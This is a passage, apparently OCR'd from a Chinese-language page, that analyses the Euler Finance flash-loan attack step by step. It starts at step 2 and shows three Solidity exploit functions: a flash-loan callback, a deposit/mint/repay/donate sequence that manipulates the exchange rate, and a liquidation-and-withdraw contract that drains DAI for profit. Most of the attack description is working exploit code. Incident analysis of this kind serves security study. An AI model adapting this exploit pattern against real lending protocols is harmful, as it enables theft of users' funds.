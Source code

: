 2.部署了一个智能合约，并向其转移了 2000 万个 DAI。在 executeOperation 函数中添加此操作

```js
function executeOperation(  
    address\[\] calldata assets,  
    uint256\[\] calldata amounts,  
    uint256\[\] calldata premiums,  
    address initiator,  
    bytes calldata params  
) external returns (bool){  
    LendContract lendcontract=new LendContract(address(this));  
    dai.approve(address(aave),type(uint256).max);  
    dai.transfer(address(lendcontract),nums1\[0\]);  
    lendcontract.exp();  
    return true;  
}
```

3.使用智能合约存入 2000 万 DAI，铸造 1.95 亿 eDAI / 2 亿 dDAI。借款人在偿还 1000 万 DAI 后，铸造了 1.95 亿 eDAI/2 亿 dDAI，并捐赠了 1 亿 eDAI，使头寸可变现并改变了兑换率，还在功能中加入了变现智能合约部署脚本。

```js
function exp() public{  
    liquidationContract liquidation\_C=new liquidationContract(address(this),mainContractAddress);  
      dai.balanceOf(address(this));  
    dai.approve(address(euler),type(uint256).max);  
    edai.deposit(0,20000000000000000000000000);  
    edai.mint(0,200000000000000000000000000);  
    ddai.repay(0,10000000000000000000000000);  
    edai.mint(0,200000000000000000000000000);  
    edai.donateToReserves(0,100000000000000000000000000);  
    liquidation\_C.exp();  
}
```

4.然后调用清算功能，启动清算过程，获得 3.1 亿 dDAI 和 2.5 亿 eDAI。最后，攻击者调用了提现功能，获得了 3890 万 DAI，用于偿还通过闪电贷借入的 3000 万 DAI。他们获利 887 万。

```js
function exp() public{  
    PROXY.LiquidationOpportunity memory s=PROXY.LiquidationOpportunity({  
    repay:0,  
    yield:0,  
    healthScore:0,  
    baseDiscount:0,  
    discount:0,  
    conversionRate:0  
    });  
    s=proxy.checkLiquidation(address(this),lendcontractAddress,address(dai),address(dai));  
    proxy.liquidate(lendcontractAddress,address(dai),address(dai),s.repay,250000000000000000000000000);  
    edai.withdraw(0,38900000000000000000000000);  
    dai.transfer(address(MainAddress),38900000000000000000000000);  
}
```
